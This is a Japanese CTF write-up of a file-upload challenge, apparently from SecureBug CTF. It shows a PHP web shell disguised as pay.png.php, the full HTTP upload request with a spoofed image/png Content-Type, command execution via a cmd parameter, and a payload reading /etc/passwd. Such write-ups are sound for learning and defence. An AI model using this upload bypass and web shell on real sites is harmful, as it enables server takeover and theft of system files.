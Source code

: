 # Challenge Name: Trojan Horse
***
画像ファイルをアップロードできるサイト
![aa](https://github.com/xn16h7/CTF/blob/master/SecureBug%20CTF/securebugctfimg/writeup6.png)

バックドアシェルをアップロードしてみる
色々試した結果ファイル名とContent-Typeを書き換えるとbypassが可能だった
ファイルの中身を見ているときはファイルの先頭に拡張子にあわせて今回だと臼NGとかを入れることでbypassできる可能性があるらしい

ファイル名をとペイロードを下記のようにしてみた。  
queryにcmdパラメータを入れてコマンド実行できる

> pay.png.php
~~~
<?
system($_GET['cmd']);
?>
~~~

Content-Type: application/octet-stream  
⇒Content-Type: image/pngに変更してリクエストを送信することでbypassができる


~~~
POST /trojan/ HTTP/1.1
Host: 18.194.166.81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ja,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------250722975826467346882742916592
Content-Length: 650
Origin: http://18.194.166.81
Connection: close
Referer: http://18.194.166.81/trojan/
Upgrade-Insecure-Requests: 1

-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="name"


-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="email"


-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="image"; filename="pay.png.php"
Content-Type: image/png

<?
system($_GET['cmd']);
?>
-----------------------------250722975826467346882742916592
Content-Disposition: form-data; name="submit"

Submit
-----------------------------250722975826467346882742916592--
~~~

アップロードに成功した。
![aa](https://github.com/xn16h7/CTF/blob/master/SecureBug%20CTF/securebugctfimg/%E2%91%A1writeup6.png)


下記のようにクエリにしてOSコマンドを実行してみるとlsコマンドが実行できた。
18.194.166.81/trojan/uploads/b804e095f705962280b4b4102d58c3d6.php?cmd=ls
![aa](https://github.com/xn16h7/CTF/blob/master/SecureBug%20CTF/securebugctfimg/%E2%91%A2writeup6.png)

flagがなかったので
問題文でパスワードがプレーンtextって書いてあったので下記payloadを送ってPHPを実行する。
~~~
<?php
    system("cat /etc/passwd");
?>
~~~
![aa](https://github.com/xn16h7/CTF/blob/master/SecureBug%20CTF/securebugctfimg/%E2%91%A3writeup6.png)

### SBCTF{unr3s7r1c73d_f1l3_upl04d_1s_d4ng3r0us}

